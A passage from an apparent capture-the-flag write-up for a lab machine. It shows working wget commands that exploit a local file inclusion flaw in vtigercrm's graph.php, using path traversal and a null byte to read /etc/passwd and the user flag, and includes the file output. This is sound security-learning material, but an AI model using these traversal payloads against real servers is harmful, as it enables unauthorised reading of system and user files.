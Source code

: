 First we need to find the name of the low priv user, so let me pull out `/etc/passwd` file
```
$ wget --no-check-certificate "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" -O passwd.txt

$ cat passwd.txt | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
`fanis` seams to be the user... let me try the payload with `/home/fanis/user.txt`
```
$ wget --no-check-certificate "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action" -O user.txt
```
and got the flag!

we can try `/root/root.txt` but...
```
$ wget --no-check-certificate "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//root/root.txt%00&module=Accounts&action" -O root.txt
```
access denied as expected.

## Final thoughts

There are a lot of ways to solve this box, you have plenty of awesome resources online to see alternative ways, this was my own, with the self-imposed restriction of using just the terminal, hope you liked. Also, I'm not sure if the box, when active, had all the certificate problems... 

In the unlikely chance that you didn't check the [IppSec's video](https://www.youtube.com/watch?v=XJmBpOd__N8) on this box, do it, it's long but priceless, I learned so much!!!

Take care! FOLLOW YOUR DREAMS!!!
